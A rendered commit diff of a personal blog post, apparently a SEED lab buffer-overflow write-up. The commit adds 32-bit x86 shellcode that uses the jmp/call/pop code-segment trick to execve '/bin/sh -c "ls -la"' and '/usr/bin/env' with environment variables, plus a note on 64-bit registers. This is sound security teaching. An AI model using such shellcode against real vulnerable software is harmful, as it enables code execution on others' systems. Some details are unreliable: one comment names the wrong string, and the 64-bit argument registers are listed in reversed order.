

Before and after one commit to iukadike/blog, a Jekyll site: the page built from _posts/2023-08-01-buffer-overflow.md, in a window 1280 px wide and 900 px high, scrolled down 2269 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2930 px from its top, so only the background shows below that.

Commit message:
update post content

```diff
--- a/_posts/2023-08-01-buffer-overflow.md
+++ b/_posts/2023-08-01-buffer-overflow.md
@@ -100,7 +100,7 @@ This means EAX would store the execve function itself (execve has a system call
 
 <details>
 <summary>Seed lab code</summary>
-<pre>
+<pre><code>
 section .text
   global _start
     _start:
@@ -120,12 +120,12 @@ section .text
       xor eax, eax ; eax = 0x00000000
       mov al, 0x0b ; eax = 0x0000000b
       int 0x80
-</pre>
+</code></pre>
 </details>
 
 <details>
 <summary>My solution to <code>/bin/sh -c "ls -la"</code></summary>
-<pre>
+<pre><code>
 section .text
   global _start
     _start:
@@ -167,12 +167,12 @@ section .text
       xor  eax, eax     ; eax = 0x00000000
       mov   al, 0x0b    ; eax = 0x0000000b
       int 0x80
-</pre>
+</code></pre>
 </details>
 
 <details>
 <summary>My solution to <code>/usr/bin/env</code> (supplying environment variables)</summary>
-<pre>
+<pre><code>
 section .text
   global _start
     _start:
@@ -222,9 +222,104 @@ section .text
       xor  eax, eax     ; eax = 0x00000000
       mov   al, 0x0b    ; eax = 0x0000000b
       int 0x80
-</pre>
+</code></pre>
 </details>
 
 #### Using Code Segment
 
 Rather than dynamically constructing all the necessary data structures on the stack, so their addresses can be obtained from the stack pointer `esp`, data can be stored in the code region, and its address is obtained via the function call mechanism.
+
+<details>
+<summary>My solution to <code>/bin/sh -c "ls -la"</code> using code segment</summary>
+<pre><code>
+section .text
+  global _start
+    _start:
+        BITS 32
+	    jmp short two
+    one:
+ 	    pop esi
+     	xor eax, eax
+
+ 	    mov [esi+7],  al   ; /bin/sh%0
+ 	    mov [esi+10], al   ; -c%0
+ 	    mov [esi+17], al   ; ls -la%0
+
+ 	    mov [esi+18], esi  ; put address of "/usr/bin/env" in AAAA
+
+ 	    lea ebx, [esi+8]   ; get address of "-c"
+ 	    mov [esi+22], ebx  ; put address of "-c" in BBBB
+
+ 	    lea ebx, [esi+11]  ; get address of "ls -la"
+ 	    mov [esi+26], ebx  ; put address of "ls -la" in CCCC
+
+ 	    mov [esi+30], eax  ; put NULL in DDDD
+
+ 	    mov al,  0x0b      ; pass the execve syscall number as argument
+ 	    mov ebx, esi
+ 	    lea ecx, [esi+18]  ; /bin/sh -c "ls -la"
+ 	    lea edx, [esi+30]  ; NULL
+
+ 	    int 0x80           ; execve
+    two:
+ 	    call one
+ 	    db '/bin/sh*-c*ls -la*AAAABBBBCCCCDDDD'
+ 	       ;01234567890123456789012345678901234
+ 	       ;          1         2         3
+</code></pre>
+</details>
+
+<details>
+<summary>My solution to <code>/usr/bin/env</code> (supplying environment variables) using code segment</summary>
+<pre><code>
+section .text
+  global _start
+    _start:
+        BITS 32
+	    jmp short two
+    one:
+ 	    pop esi
+     	xor eax, eax
+
+ 	    mov [esi+12], al   ; /usr/bin/env%0
+ 	    mov [esi+17], al   ; a=11%0
+ 	    mov [esi+23], al   ; bb=22%0
+ 	    mov [esi+32], al   ; ccc=4567%0
+
+ 	    mov [esi+33], esi  ; address of /usr/bin/env in AAAA
+ 	    mov [esi+37], eax  ; put NULL in BBBB (to indicate end of array)
+
+ 	    lea ebx, [esi+13]  ; get address of a=11
+ 	    mov [esi+41], ebx  ; address of a=11 in CCCC
+
+ 	    lea ebx, [esi+18]  ; get address of bb=22
+ 	    mov [esi+45], ebx  ; address of bb=22 in DDDD
+
+ 	    lea ebx, [esi+24]  ; get address of ccc=4567
+ 	    mov [esi+49], ebx  ; address of ccc=4567 in EEEE
+
+ 	    mov al,  0x0b      ; pass the execve syscall number as argument
+ 	    mov ebx, esi
+ 	    lea ecx, [esi+33]  ; /usr/bin/env
+ 	    lea edx, [esi+41]  ; a=11,bb=22,ccc=4567
+
+ 	    int 0x80           ; execve
+    two:
+ 	    call one
+ 	    db '/usr/bin/env*a=11*bb=22*ccc=4567*AAAABBBBCCCCDDDDEEEE'
+ 	    ;   01234567890123456789012345678901234567890123456789012
+ 	    ;             1         2         3         4         5
+</code></pre>
+</details>
+
+Writing 64-bit shellcode is not too different to writing 32-bit shellcode. The differences are mainly in the registers. For the x64 architecture, invoking system call
+is done through the syscall instruction, and the first three arguments for the system call are stored in the rdx, rsi, rdi registers, respectively.
+<details>
+<summary>64-bit equivalent registers</summary>
+<ul>
+<li>eax = rax</li>
+<li>ebx = rdi</li>
+<li>ecx = rsi</li>
+<li>edx = rdx</li>
+</ul>
+</details>
```
